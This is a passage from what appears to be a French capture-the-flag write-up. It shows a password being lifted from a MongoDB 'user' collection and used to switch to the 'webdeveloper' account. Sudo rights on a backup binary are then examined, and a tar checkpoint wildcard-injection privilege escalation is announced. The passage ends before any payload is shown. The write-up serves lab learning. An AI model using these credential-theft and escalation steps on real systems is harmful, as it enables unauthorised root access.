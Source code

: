 ```
collection
user
```
C'est déjà plus intéressant. On va afficher le contenu de la db **user**
```
> db.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "Bah*************" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }
>
```
On retrouve le mot de passe de **webdeveloper**, testons ca !
```
www-data@sky:/home/webdeveloper$ su - webdeveloper
Password: 
webdeveloper@sky:~$
```
Parfait, je suis connecté en tant que **webdeveloper**

# Privesc to root!
Notre session **wedeveloper** a un acces sudo:
```
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$
```
Il peux executer **/usr/bin/sky_backup_utility**.

**sky_backup_utility** est un bin Linux. On va le reverse avec Ghidra.
*Je passe par Ghidra pour la science, un simple cat sur ce fichier affiche ce qu'il nous faut pour deviner ce que ce petit programme fait*
```cpp
bool main(void)

{
  int iVar1;
  
  puts("Sky Backup Utility");
  puts("Now attempting to backup Sky");
  iVar1 = system("tar -czvf /root/.backup/sky-backup.tar.gz /var/www/html/*");
  if (iVar1 == 0) {
    puts("Backup successful!");
  }
  else {
    printf("Backup failed!\nCheck your permissions!");
  }
  return iVar1 != 0;
}
```
Comme on peu le voir ici, il archive tout le contenu du dosier /var/www/html.
Vu qu'il archive **TOUT** le dossier, on va pouvoir test de créer un shell et de mettre des checkpoints avec tar pour l'executer.

